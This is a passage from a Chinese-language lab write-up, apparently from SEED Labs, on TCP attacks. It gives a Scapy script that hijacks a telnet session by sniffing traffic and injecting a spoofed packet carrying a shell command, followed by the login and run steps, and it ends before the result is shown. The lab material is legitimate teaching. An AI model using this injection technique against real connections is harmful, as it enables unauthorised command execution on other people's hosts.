 可以看出，连接直接被中断了。

# Task 3: TCP Session Hijacking

编写 `tcphijacking.py`：

```python
#!/usr/bin/env python3
from scapy.all import *

def spoof_pkt(pkt):
	ip = IP(src=pkt[IP].dst, dst=pkt[IP].src)
	tcp = TCP(sport=pkt[TCP].dport, dport=23,
              flags="A",
              seq=pkt[TCP].ack, ack=pkt[TCP].seq+1)
	data = "echo \"Fk U bitch!\" >> ~/hijacking.out\n\0"
	pkt = ip/tcp/data
	ls(pkt)
	send(pkt, verbose=0)
	
f = f'tcp and src host 10.9.0.5'
pkt = sniff(iface='br-88413f1d34bf', filter=f, prn=spoof_pkt)
```

telnet `10.9.0.5`：

```shell
user1-10.9.0.6$ telnet 10.9.0.5
Trying 10.9.0.5...
Connected to 10.9.0.5.
Escape character is '^]'.
Ubuntu 20.04.1 LTS
22c45e0a11e6 login: seed
Password: 
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-54-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon Aug 29 10:20:40 UTC 2022 from user1-10.9.0.6.net-10.9.0.0 on pts/2
```

运行程序：

```shell
attacker-10.9.0.1$ tcphijacking.py
```

查看攻击效果：
